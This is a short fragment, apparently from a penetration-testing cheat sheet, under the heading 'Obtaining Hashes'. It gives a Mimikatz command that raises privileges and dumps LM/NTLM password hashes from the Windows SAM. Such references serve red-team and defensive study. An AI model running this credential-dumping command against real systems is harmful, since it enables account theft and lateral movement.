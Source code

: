 ## Obtaining Hashes

### LM, NTLM: SAM Dump with SeBackupPrivilege + Mimikatz

```powershell
mimikatz64.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
```

